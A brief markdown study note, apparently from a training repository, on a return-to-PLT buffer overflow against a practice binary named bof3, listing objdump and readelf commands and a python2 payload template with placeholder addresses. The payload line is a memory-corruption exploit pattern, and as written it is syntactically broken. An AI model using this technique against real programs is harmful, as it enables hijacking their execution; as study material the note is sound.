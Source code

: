 # Buffer Overflow : return to plt
1. TARGET FILE : bof3 <br>
2. SORUCE FILE : bof3.c <br>

***TASK1*** <br>
Q.) How to Find plt section in elf file? <br>
A.) use objdump option with -j ".plt" <br>

How To) <br>
objdump -d -M intel -j .plt bof3 <br>

***TASK2*** <br>
Q.) How to Find global Variable ? <br>
A.) user readelf tool with -s <br>

How To) <br>
readelf -s bof3 |grep GLOBAL <br>

***TASK3*** <br>
Q.) plt Payloads? <br>
A.) Command This <br>

python2 -c "print 'a'*offset '{plt section function address}'+'BBBB'+'{GLOBAL VARIABLE ADDRESS}'" | ./target_file <br>
